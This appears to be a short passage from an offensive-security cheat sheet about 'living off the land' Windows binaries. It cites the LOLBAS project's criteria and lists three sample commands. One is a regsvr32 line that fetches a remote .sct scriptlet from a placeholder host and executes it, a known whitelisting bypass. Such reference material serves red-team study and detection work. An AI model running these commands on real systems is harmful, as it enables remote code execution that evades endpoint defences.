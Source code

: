 ## EoP - Living Off The Land Binaries and Scripts

Living Off The Land Binaries and Scripts (and also Libraries) : https://lolbas-project.github.io/

> The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

-   Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft. Have extra “unexpected” functionality. It is not interesting to document intended use cases. Exceptions are application whitelisting bypasses
-   Have functionality that would be useful to an APT or red team

```
wmic.exe process call create calc
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
Microsoft.Workflow.Compiler.exe tests.xml results.xml
```